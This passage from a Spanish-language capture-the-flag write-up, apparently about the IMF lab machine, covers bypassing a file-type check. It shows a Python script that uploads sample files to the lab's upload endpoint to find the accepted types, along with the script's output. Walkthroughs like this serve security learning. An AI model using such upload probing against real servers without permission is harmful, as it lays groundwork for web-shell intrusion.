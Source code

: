 ## Bypassing File Type Check
### Creating a script to detect allowed file types
Primero debemos saber que tipos de archivos le gusta al servidor, así que vamos a hacer otro pequeño script para ir subiendo archivos de varios tipos de [este repositorio](https://github.com/NicolasCARPi/example-files).

Así que primero nos clonamos el repositorio.
```console
git clone https://github.com/NicolasCARPi/example-files
Cloning into 'example-files'...
remote: Enumerating objects: 66, done.
remote: Counting objects: 100% (20/20), done.
remote: Compressing objects: 100% (18/18), done.
remote: Total 66 (delta 4), reused 18 (delta 2), pack-reused 46 (from 1)
Receiving objects: 100% (66/66), 7.19 MiB | 16.59 MiB/s, done.
Resolving deltas: 100% (13/13), done.
```

Y con este simple script podemos comprobar que archivos podemos subir al servidor.
```python
#!/usr/bin/python3
import requests
from os import listdir
from os.path import isfile, join

UPLOAD_URL = "http://imf.local/imfadministrator/uploadr942.php"
SAMPLE_FILES_DIRECTORY = "./example-files"

def main():
    files = [f for f in listdir(SAMPLE_FILES_DIRECTORY) if isfile(join(SAMPLE_FILES_DIRECTORY, f))]
    for file in files:
        target_file = open(SAMPLE_FILES_DIRECTORY+"/"+file,"rb")
        r = requests.post(UPLOAD_URL, files = {"file": target_file})
        if "Invalid file type" not in r.text:
            print("[i] Uploaded file: " + file)

if __name__ == "__main__":
    main()
```

```console
python3 detect_filetypes.py
[i] Uploaded file: example.jcamp
[i] Uploaded file: example.pdb
[i] Uploaded file: example.ppt
[i] Uploaded file: example.wav
[i] Uploaded file: example.gif
[i] Uploaded file: example.avi
[i] Uploaded file: example.tif
[i] Uploaded file: example.flac
[i] Uploaded file: example.mnova
[i] Uploaded file: example.gz
[i] Uploaded file: example.pdf
[i] Uploaded file: example.pps
[i] Uploaded file: example.cif
```

